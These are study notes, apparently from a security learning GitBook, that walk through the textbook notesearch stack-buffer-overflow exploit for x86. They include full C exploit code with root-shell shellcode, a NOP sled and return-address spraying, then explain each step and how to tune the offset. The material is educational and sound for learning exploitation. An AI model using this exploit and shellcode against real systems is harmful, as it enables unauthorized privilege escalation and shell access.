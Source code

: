 # x86

Refer to [https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/vulnerability-and-exploitation/binary-exploitation/x86-architecture ](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/vulnerability-and-exploitation/binary-exploitation/x86-architecture)for more information about the x86 architecture&#x20;

_**hacking: the art of exploitation**_

{% code title="exploit_notesearch.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
 unsigned int i, *ptr, ret, offset=270;
 char *command, *buffer;
 
 command = (char *) malloc(200);
 
 bzero(command, 200); // Zero out the new memory.
 
 strcpy(command, "./notesearch \'"); // Start command buffer.
 buffer = command + strlen(command); // Set buffer at the end.
 
 if(argc > 1) // Set offset.
  offset = atoi(argv[1]);
  
 ret = (unsigned int) &i - offset; // Set return address.
 
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
 *((unsigned int *)(buffer+i)) = ret;
 
 memset(buffer, 0x90, 60); // Build NOP sled.
 memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
 
 strcat(command, "\'");
 system(command); // Run exploit.
 free(command);
}
```
{% endcode %}

The exploit above displays a simple buffer overflow exploit for the x86 architecture.

> This exploit will only work with architecture that have a stack growing downwards (to lower memory addresses).

#### Explanation

1. Shellcode string
   * ...
2. Set return address (estimated)

```c
ret = (unsigned int) &i - offset; // Set return address.
```

Set the return address by subtracting a guessed offset value from the current stack location. This calculates a possible lower memory location that may land in the NOP sled when the `notesearch` program is executed. Keep in mind that a subtraction is used instead due to the stack growing downwards.

3. Fill buffer space with return address
   * This is performed in hopes of overwriting the `EIP` (instruction pointer) with the return address of our choice
   * to trick the CPU into executing malicious code

```c
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
  *((unsigned int *)(buffer+i)) = ret;
```

4. Build NOP sled and append shellcode

```c
memset(buffer, 0x90, 60); // Build NOP sled.
memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
```

The value `0x90` represents a NOP instruction in x86 assembly. A NOP instruction is simply a command that does nothing. In this case, when the EIP points to an address within the NOP sled region, the CPU will simply run through each NOP instruction, until it eventually reaches and executes the shellcode.

> Note: the CPU automatically updates the EIP to point to the next instruciton in memory (auto increment)

**1st line**: appends 60 bytes of the NOP instruction

**2nd line**: appends shellcode right after the NOP sled

#### Methods to fine-tune the exploit

1. Increase the NOP sled size
   * This increases the chances of the return address value (calculated with the offset) to land within the NOP sled region
2. Vary the offset value
   * Experiment with different offset values to determine the value that provides the return address which falls within range the range of the NOP sled region

